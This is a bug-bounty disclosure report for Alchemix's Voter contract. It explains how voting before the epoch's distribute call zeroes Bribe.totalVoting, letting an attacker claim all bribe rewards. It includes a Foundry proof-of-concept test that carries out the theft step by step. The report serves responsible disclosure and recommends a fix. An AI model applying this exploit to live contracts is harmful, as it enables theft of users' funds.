 
# Call the deposit function before the distribute function to steal tokens

Submitted on Tue May 07 2024 13:44:37 GMT-0400 (Atlantic Standard Time) by @cryptoticky for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #30898

Report type: Smart Contract

Report severity: Critical

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Voter.sol

Impacts:
- Manipulation of governance voting result deviating from voted outcome and resulting in a direct change from intended effect of original results
- Theft of unclaimed yield

## Description
## Brief/Intro
If an attacker makes a deposit before the `Voter.distribute` function is called in a new epoch, the `Bribe.totalVoting` becomes smaller than the actual sum of votes. This discrepancy provides the attacker with an opportunity to steal funds from the contract.

## Vulnerability Details
- Keeper or anyone will call `Voter.distribute` function to initialize the protocol once a new epoch
- But an attacker can call `Voter.vote` function before the `Voter.distribute` function is called
- If the `Voter.distribute` function is called after the attacker calls `Voter.vote` function, that updates `Bribe.totalVoting` to `0`
- If there is no vote anymore in this epoch, the prevSupply will be 1 when the attacker claims the reward. It means that the attacker can adjust the amount of rewards you will receive. So that the attacker can steal all assets in the Bribe contract.
- If there are other votes after calling distribute function, the attacker can get more than the expected reward.

## Impact Details
- As a result of the vote, it results in a different effect from the expected effect regardless of voting Power.
- An attacker can steal all the rewards in the Bribe contract.

## Recommendation
It is recommended to confirm that the Voter.distribute function was called when users call Voter.vote function in the new epoch, and if it is false, it is recommended to call the distribute function first.
        
## Proof of concept
## Proof of Concept
```
// SPDX-License-Identifier: GPL-3
pragma solidity ^0.8.15;

import "./BaseTest.sol";

contract BribePoC is BaseTest {
    uint256 constant DURATION = 2 weeks;
    uint256 constant SECONDS_PER_BLOCK = 12;
    uint256 public epochTime;
    uint256 public epochBlock;

    function setUp() public {
        setupContracts(block.timestamp);
        epochTime = minter.activePeriod();
        epochBlock = block.number;
    }


    function testBugDoSDeposit() public {

        address bribeAddress = voter.bribes(address(sushiGauge));
        address[] memory pools = new address[](1);
        pools[0] = sushiPoolAddress;
        uint256[] memory weights = new uint256[](1);
        weights[0] = 10000;

        // go epoch 1
        uint256 period = minter.activePeriod();
        hevm.warp(period + nextEpoch);

        uint256 targetTokenId = createVeAlcx(admin, TOKEN_1, MAXTIME, false);
        hevm.prank(admin);
        voter.vote(targetTokenId, pools, weights, 0);

        uint256 totalVoting0 = IBribe(bribeAddress).totalVoting();
        assertGt(totalVoting0, 0, "totalVoting0 = 0");

        voter.distribute();

        uint256 totalVoting1 = IBribe(bribeAddress).totalVoting();
        assertEq(totalVoting1, 0, "totalVoting1 != 0");

        uint256 userTokenId = createVeAlcx(beef, TOKEN_1, MAXTIME, false);

        hevm.prank(beef);
        voter.vote(userTokenId, pools, weights, 0);

        totalVoting1 = IBribe(bribeAddress).totalVoting();
        assertEq(totalVoting1, totalVoting0, "totalVoting1 != totalVoting0");


        createThirdPartyBribe(bribeAddress, bal, TOKEN_100K);

        // go epoch 2
        period = minter.activePeriod();
        hevm.warp(period + nextEpoch);

        voter.distribute();

        // in the second block of epoch 2
        address[] memory bribes = new address[](1);
        bribes[0] = address(bribeAddress);
        address[][] memory tokens = new address[][](1);
        tokens[0] = new address[](1);
        tokens[0][0] = bal;

        uint256 beforeBalOfAdmin = IERC20(bal).balanceOf(admin);

        hevm.prank(admin);
        voter.claimBribes(bribes, tokens, targetTokenId);

        uint256 deltaBalOfAdmin = IERC20(bal).balanceOf(admin) - beforeBalOfAdmin;

        // The success means the attacker stole all reward of epoch 1
        // In the Bribe contract, rewards for other users who have not claimed for a long time, including rewards from new epoch, may remain.
        // The attacker can steal all these funds.
        assertEq(TOKEN_100K, deltaBalOfAdmin, "The attack is failed");
    }
}
```